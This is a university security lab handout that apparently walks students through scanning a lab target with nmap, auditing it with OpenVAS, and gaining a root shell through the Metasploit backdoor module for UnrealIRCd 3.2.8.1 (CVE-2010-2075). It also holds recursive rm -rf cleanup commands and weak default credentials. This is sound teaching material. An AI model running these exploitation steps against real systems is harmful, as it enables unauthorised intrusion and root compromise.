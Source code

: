 # CSCD27 Lab 10: Penetration Testing

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

Make sure to cleanup your directory at the **beginning** and at the **end** od this lab.

```shell
find ~ -follow -depth -name VirtualBox\ VMs -exec rm -rf '{}' \;
find ~ -follow -depth -name .VirtualBox -exec rm -rf '{}' \;
find ~ -follow -depth -name .vagrant.d -exec rm -rf '{}' \;
find ~ -follow -depth  -name .vagrant -exec rm -rf '{}' \;
```

All 3 parts of this lab must be done in the Kali linux box inside assignment 3:

```shell
$ cd ~/cscd27f16_space
$ git pull
$ cd CSCD27-F16/assignment/03/code/part2
$ vagrant up
$ vagrant ssh kali
```

## Nmap - Network Mapping and Host Fingerprinting

In this first part, we are going to use nmap to discover the services running on the target machine. This command exports the results in a file called `target.nmap`:

```shell
$ nmap -O —sV -p0-65535 10.0.1.101 -oN target.nmap
```

## OpenVAS - Vulnerability Scanner

In this first part, we are going to use OpenVAS vulnerability scanner to audit the security of the target:

```shell
$ openvas-setup
$ openvas-start
Starting OpenVas Services
Starting Greenbone Security Assistant: gsad.
Starting OpenVAS Scanner: openvassd.
Starting OpenVAS Manager: openvasmd.
```

**Important:** Make sure that the 4 OpenVAS components have all started correctly without any `ERROR`. If any, stop OpenVAS (`openvas-stop`) and restart it.

Once OpenVAS has correctly started, add the admin user:

```shell
$ openvasmd —create-user=admin
$ openvasmd —new-password=admin —user=admin
```

Finally, scan the target and export (as a pdf) the report through the OpenVAS web interface [https://localhost:9392](https://localhost:9392)

## Metasploit - Exploit Framework

In this third part, we are going to use Metasploit to exploit a vulnerability ([CVE 2010-2075](http://www.cvedetails.com/cve/CVE-2010-2075/)) in UnrealIRCd (version 3.2.8.1). First, let us update and start the metasploit console:

```shell
$ msfupdate
$ service postgresql start
$ msfconsole
```

Thus, we can load, configure and run the exploit:

1. load the `unreal_ircd_3281_backdo­or` exploit

   ```shell
    msf > use exploit/unix/irc/unreal_ircd_3281_backdo­or
    ```
2. show and assign values to the exploit arguments:

    ```shell
    msf > show options
    msf > set RHOST 10.0.1.101
    ```
3. run the exploit

    ```
    msf > exploit
    ```
4. Voila!

    ```
    whoami
    root
    ```

